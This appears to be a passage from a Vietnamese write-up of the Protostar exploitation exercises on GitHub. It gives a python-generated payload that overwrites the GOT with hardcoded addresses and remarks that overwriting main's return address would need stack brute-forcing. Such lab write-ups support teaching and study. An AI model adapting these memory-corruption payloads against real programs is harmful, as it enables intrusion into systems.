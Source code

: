 `$(python -c "print 'AAAABBBBCCCCDDDDEEEE'+'\x74\x97\x04\x08'") $(python -c "print '\x94\x84\x04\x08'")` => overwrite GOT \n
Cũng có thể overwrite return address của main nữa, nhưng khi đó phải brute stack address :v khá là lười. Demo:\n
![image](https://github.com/CP04042K/Protostar-writeup/assets/35491855/5f80f9d9-42eb-45ac-997f-fe78c0bc5d80)
